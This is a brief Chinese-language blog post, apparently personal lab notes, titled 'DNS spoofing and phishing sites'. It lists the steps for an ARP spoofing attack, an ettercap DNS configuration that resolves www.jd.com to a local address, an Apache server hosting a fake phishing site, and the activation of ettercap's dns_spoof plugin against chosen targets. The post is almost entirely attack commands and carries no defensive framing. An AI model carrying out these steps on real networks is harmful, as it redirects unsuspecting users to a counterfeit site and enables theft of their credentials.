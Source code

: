 ```yaml
---
layout: post
title: DNS欺骗与钓鱼网站
date: 2020-09-10
categories:
- Security
---
```

1.ARP欺骗攻击<br>

2.伪装DNS服务器(正向解析)<br>
* vim /etc/ettercap/etter.dns`
* www.jd.com A 10.1.1.2`
* A 10.1.1.2`
* www.jd.com PTR 10.1.1.2`
* PTR 10.1.1.2`

3.开Apache发布一个虚假的钓鱼网站<br>
systemctl start apache2<br>
netstat -antpl<br>
cd /var/www/html/<br>

4.ettercap<br>
add to target<br>
Plugins=>dns_spoof<br>
